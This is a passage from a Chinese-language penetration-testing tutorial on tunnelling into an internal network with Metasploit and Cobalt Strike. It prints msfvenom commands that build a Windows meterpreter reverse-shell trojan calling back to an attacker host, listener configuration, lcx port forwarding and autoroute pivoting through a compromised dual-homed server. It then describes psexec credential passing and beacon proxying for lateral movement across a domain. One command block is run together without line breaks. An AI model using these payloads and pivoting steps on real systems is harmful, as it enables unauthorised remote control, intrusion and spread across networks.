msf 木马穿透内网


用 msf 生成一个内网的木马，此处内网 ip10 段是不能直接连接 192 段的；将木马种在内网 10 段的机器上；


PC 服务器内网 IP；





web 服务器双网卡；





```powershell
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.80  LPORT=6677 -f exe > 444.exe
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.167.131
set lport 7777
exploit
```

复制代码





在 web 服务器用 lcx 工具执行端口转发：


在 PC 端运行木马，然后成功回连；


还可以用 msf 自带的通道，将路由添加上，其实就已经是通的了；


```
run get_local_subnets  #查看路由段
run autoroute -s 10.10.10.0/24   #添加路由至本地
run autoroute -p  #打印当前路由信息
```

复制代码


借用的是 session 3 的通道，而 session 3 是双网卡，能通内网的；


```
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.80  LPORT=6677 -f exe > 444.exeuse exploit/multi/handlerset payload windows/x64/meterpreter/reverse_tcpset lhost 10.10.10.80set lport 6677exploit
```

复制代码


在这里复用 exploit/multi/handler 模块，进行重新设置是可以的，将端口分开使用不要重复；


运行程序后成功上线：两个会话同时存在，没有冲突；


**（2）CS 的利用**


获取凭据后，可以利用 psexec 传递登录；


在 Beacon 中可以看到执行的命令，并会显示成功登录的 ip，之后就便会上线 CobalStrike。这样就控制了多个主机的系统权限。


因为 CS 的 smb 的 beacon 不稳定，所以考虑作个代理；CS 代理功能很强大，直接带的有；


对于域成员，还可以使用 psexec_psh；


至此，整个总结就告一段落了，主要还是集中在了 MSF、CS 工具的熟练运用，代理的灵活变通，域渗透的基本思路及方法。有关域渗透更多的诸如黄金票据、白银票据的伪造，权限维持等更高阶的内容，将在今后继续深入探讨。

